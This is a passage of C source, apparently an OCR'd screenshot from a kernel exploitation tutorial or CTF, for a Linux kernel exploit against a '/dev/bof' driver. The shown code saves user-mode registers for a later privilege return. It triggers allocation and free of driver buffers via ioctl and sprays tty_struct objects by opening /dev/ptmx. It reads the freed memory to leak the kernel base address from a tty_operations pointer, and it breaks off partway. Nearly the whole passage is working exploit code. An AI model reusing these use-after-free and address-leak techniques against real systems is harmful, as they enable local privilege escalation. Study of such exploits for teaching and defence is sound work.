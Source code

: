 ```c
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    puts("[*] status has been saved.");
}

#define __USE_GNU

#include <sched.h>

void bind_cpu(int core) {
    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);
}

const int BOF_NUM = 40;
const int PTMX_NUM = 0x100;

int main() {
    bind_cpu(sched_getcpu());

    int bof_fd = open("/dev/bof", O_RDWR);
    if (bof_fd == -1) {
        puts("[-] open bof device failed!");
        return -1;
    }

    struct param p;
    p.buf = malloc(p.len = 0x2e0);

    // 让驱动分配 BOF_NUM 个 0x2e0  的内存块
    for (p.idx = BOF_NUM - 1; p.idx >= 0; p.idx--) {
        ioctl(bof_fd, 5, &p); // malloc
    }

    // 释放 BOF_NUM 个申请的内存块
    for (p.idx = BOF_NUM - 1; p.idx >= 0; p.idx--) {
        ioctl(bof_fd, 7, &p);  // free
    }

    // 批量 open /dev/ptmx, 喷射 tty_struct
    int ptmx_fds[PTMX_NUM];
    for (int i = 0; i < PTMX_NUM; ++i) {
        ptmx_fds[i] = open("/dev/ptmx", O_RDWR | O_NOCTTY);
        if (ptmx_fds[i] == -1) {
            puts("[-] open ptmx err");
        }
    }

    p.idx = 0;
    ioctl(bof_fd, 9, &p);
    // 此时如果释放后的内存被 tty_struct 占用，那么他的开始字节序列应该为 1 54  0  0  1  0  0  0  0  0  0  0  0  0  0  0
    for (int i = 0; i < 16; ++i) {
        printf("%2x%c", p.buf[i], i == 15 ? '\n' : ' ');
    }

    // 利用 tty_operations 指针泄露内核基址
    size_t offset = (*(size_t *) &p.buf[0x18]) - 0xffffffff81a8b020;
```